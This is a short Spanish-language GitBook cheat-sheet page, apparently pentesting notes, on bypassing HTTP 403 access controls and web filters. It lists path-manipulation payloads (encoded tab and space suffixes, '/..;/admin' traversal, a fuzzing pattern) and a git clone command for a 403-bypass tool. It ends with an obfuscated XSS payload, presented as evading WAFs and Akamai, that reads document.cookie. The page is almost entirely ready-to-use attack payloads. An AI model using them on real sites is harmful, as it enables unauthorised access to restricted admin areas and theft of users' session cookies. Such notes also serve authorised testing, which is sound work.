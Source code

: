 ```yaml
---
icon: face-shush
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Bypass



## <mark style="color:orange;">Error 403</mark>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
git clone https://github.com/nazmul-ethi/Bypass-Four03.git
```

## <mark style="color:orange;">Alternativas para bypass 403</mark>

1- Usar símbolos de espacio

```
/admin -> 403
```

```
/admin%09 -> 200
```

```
/admin%20 -> 200
```

2- Usar el recorrido transversal:

```
/admin -> 403
```

```
/..;/admin -> 200
```

A veces se puede hacer un fuzz con el recorrido que termina con los resultados

```
/..;/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:orange;">Bypass XSS WAF and Filters and Akamai</mark>

```
%22onmouseover=window[%27al%27%2B%27er%27%2B([%27t%27,%27b%27,%27c%27][0])](document[%27cooki%27%2B(['e','c','z'][0])]);%22
```
